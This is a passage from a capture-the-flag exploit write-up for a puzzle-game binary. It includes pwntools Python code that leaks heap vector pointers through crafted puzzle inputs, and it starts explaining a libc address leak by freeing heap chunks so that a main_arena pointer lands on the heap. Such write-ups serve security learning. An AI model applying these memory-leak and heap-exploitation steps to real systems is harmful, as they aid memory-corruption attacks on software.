 Here's the function to leak those three pointers:

```python
@context.silent
def solve_leak(idx, known_bits):
    #known_bits = [0,0,0,0]
    add_puzzle("leak", 92, b"\x00"*0x400)

    p.sendlineafter("Your input: ", "1")
    p.sendlineafter("Index:\n", str(idx))
    p.recvline_contains("Row's Numbers")

    row_numbers = [int(x.strip(b",")) for x in p.readuntil("\nColumn's Numbers\n", drop=True).split()]
    p.recvline_contains("Current Status")

    common = row_numbers[52:68] + row_numbers[32:40]
    common = common + [a - b for a,b in zip(row_numbers[76:88], known_bits + common[:8])]
    assert len(common) == 36

    beg_low = [a - b for a, b in zip(row_numbers[4:16], common[16:28])]
    end_low = [a - b for a, b in zip(row_numbers[68:80], common[16:28])]
    cap_low = [a - b for a, b in zip(row_numbers[40:52], common[-12:])]
    zeros = [0] * 16
    assert len(beg_low) == 12
    assert len(end_low) == 12
    assert len(cap_low) == 12

    beg_bits = beg_low + common + zeros
    end_bits = end_low + common + zeros
    cap_bits = cap_low + common + zeros

    actions = [(i, 89) for i, v in enumerate([0] * 4 + beg_bits + end_bits[:24]) if v]
    actions += [(i, 90) for i, v in enumerate(common[12:] + zeros + cap_bits[:52]) if v]

    p.sendlineafter(":", "".join(str(x) + " " + str(y) + "\n" for x, y in actions))
    p.recvline_contains("Congratz!")

    return u64(decode_int64(beg_bits)), u64(decode_int64(end_bits)), u64(decode_int64(cap_bits))
```

## Leaking heap data / libc address
As a next step, we want to leak the base address of libc. 
For this, we can leak data from the heap after freeing a big enough number of puzzles.
The last chunk in the linked list of free chunks will then contain a pointer into the libc `main_arena` struct, so there will be a libc pointer on the heap.

First, let's create some puzzles and free them again:

```python
for i in range(10):
    add_puzzle("tofree" + str(i), 1, b"\x01")

for _ in range(10):
    delete_puzzle(4)
```
